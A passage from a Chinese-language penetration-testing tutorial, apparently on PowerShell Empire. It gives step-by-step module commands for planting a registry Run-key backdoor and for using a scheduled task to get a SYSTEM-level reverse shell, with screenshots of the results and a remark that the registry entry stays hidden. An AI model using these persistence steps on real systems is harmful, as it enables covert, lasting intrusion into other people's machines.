 C.Narrator.exe (启动讲述人Win + U启动再选择)

D.Magnify.exe(放大镜Win + U启动再选择）

## 2.注册表注入后门

使用usemodule persistence/userland/registry模块，运行后会在目标主机启动项添加一个命令，按如下命令设置其中几个参数，如下图所示。

 

```
set Listener shuteer
set RegPath HKCU:Software\Microsoft\Windows\CurrentVersion\Run
execute
```

[![http://p2.qhimg.com/t01e5adfb0a753e431f.png](http://p2.qhimg.com/t01e5adfb0a753e431f.png)](http://p2.qhimg.com/t01e5adfb0a753e431f.png)

运行后当我们登陆系统时候就会运行，反弹回来，如下图所示。

[![http://p3.qhimg.com/t01415ca6a1fe613da8.png](http://p3.qhimg.com/t01415ca6a1fe613da8.png)](http://p3.qhimg.com/t01415ca6a1fe613da8.png)

我们去目标机主机看看启动项下面有没有添加东西，竟然没有，真是厉害，如下图所示。

[![http://p3.qhimg.com/t01e0571af69303f67a.png](http://p3.qhimg.com/t01e0571af69303f67a.png)](http://p3.qhimg.com/t01e0571af69303f67a.png)

## 3.计划任务获得系统权限

输入usemodule persistence/elevated/schtasks，使用该模块，输入info命令查看具体参数，如下图所示。在实际渗透中，运行该模块时杀软会有提示。

[![http://p0.qhimg.com/t0181d8a61b729bf669.png](http://p0.qhimg.com/t0181d8a61b729bf669.png)](http://p0.qhimg.com/t0181d8a61b729bf669.png)

 

这里要设置DailyTime，Listener这2个参数，输入下列命令，设置完后输入execute命令运行，等设置的时间到后，成功返回一个高权限的shell，如下图所示。

 

```
Set DailyTime 16:17
Set Listener test
execute
```

[![http://p9.qhimg.com/t0189cf26f57a90320f.png](http://p9.qhimg.com/t0189cf26f57a90320f.png)](http://p9.qhimg.com/t0189cf26f57a90320f.png)

我们输入agents命令来查看当前agents，可以看到又多了一个SYSTEM权限Name为LTVZB4WDDTSTLCGL的客户端，如下图所示，提权成功。

[![http://p9.qhimg.com/t012e8e48a74611bba7.png](http://p9.qhimg.com/t012e8e48a74611bba7.png)](http://p9.qhimg.com/t012e8e48a74611bba7.png)

这里如果把set RegPath 的参数改为HKCU:SOFTWARE\Microsoft\Windows\CurrentVersion\Run，那么就会在16：17分添加一个注册表注入后门，大家可以练习一下。

 

# 9.>Empire反弹回Metasploit
